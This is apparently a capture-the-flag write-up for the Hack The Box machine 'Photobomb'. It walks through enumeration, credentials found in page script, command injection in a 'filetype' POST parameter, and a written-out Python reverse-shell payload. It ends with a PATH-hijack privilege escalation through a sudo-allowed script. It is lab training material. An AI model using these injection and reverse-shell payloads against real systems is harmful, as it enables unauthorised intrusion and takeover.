 ```yaml
---
cover: ../../../../.gitbook/assets/Photobomb.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Photobomb

I scan the remote host ...

```sh
nmap -sV -sC -v -p- 10.10.11.182
```

... and I get this result :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-nmap.png" alt=""><figcaption></figcaption></figure>

There is a web service running on `port 80` with `nginx/1.18.0` and the operating system is `Ubuntu`. I add the Local DNS Name :

```sh
echo '10.10.11.182 photobomb.htb' | tee -a /etc/hosts
```

I try to enumerate website :

```sh
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://photobomb.htb
```

I get one subdirectory :

<figure><img src="../../../../.gitbook/assets/photobomb-gobuster.png" alt=""><figcaption></figcaption></figure>

When I load this page, it asks me a login and a password. If I inspect the web page, I can see there is a script running on :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-find-script.png" alt=""><figcaption></figcaption></figure>

In this script, there are some clear credentials :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-find-script-password.png" alt=""><figcaption></figcaption></figure>

I check the url `http://pH0t0:b0Mb!@photobomb.htb/printer`. I can download images, I open BurpSuite and grab the request, I can see there are 3 parameters :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

I want inject some code to ping the local host from remote, thus I start a ICMP listener on the local host ...

```sh
tcpdump -i tun0
```

... then I modify the filetype parameter like this :

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+-c+3+10.10.14.9&dimensions=3000x2000
```

I receive ICMP requests on the local host :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-icmp.png" alt=""><figcaption></figcaption></figure>

I start a netcat listener to host the remote shell :

```sh
nc -lnvp 8888
```

I try to inject a reverse shell payload in the `filetype` parameter. The payload is :

```sh
export RHOST="10.10.14.17";
export RPORT=8888;

python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'
```

And I insert it into the request :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;export+RHOST="10.10.14.17";export+RPORT=8888;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in(0,1,2)];pty.spawn("sh")'&dimensions=3000x2000
```

When I send this request, I gain reverse shell on netcat :

```sh
cat /home/wizard/user.txt
```

Upgrade the shell :

```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```

I check sudo permissions with `sudo -l` :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-sudo-permissions.png" alt=""><figcaption></figcaption></figure>

This file executes `/opt/.bashrc` :&#x20;

<figure><img src="../../../../.gitbook/assets/photobomb-cleanup-content.png" alt=""><figcaption></figcaption></figure>

Look at the difference between original `.bashrc` and actual `.bashrc` :

```bash
diff /etc/bash.bashrc /opt/.bashrc
```

There is one interesting difference, `enable -n [ # ]` because it enables all file for the current PATH. I have to update the PATH to include a new file which executes a `/bin/bash` as root.

<figure><img src="../../../../.gitbook/assets/photobomb-diff-bashrc.png" alt=""><figcaption></figcaption></figure>

I execute these commands :

```sh
echo '/bin/bash' | tee /tmp/[
chmod +x /tmp/[
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

I gain root privilege :

```sh
cat /root/root.txt
```

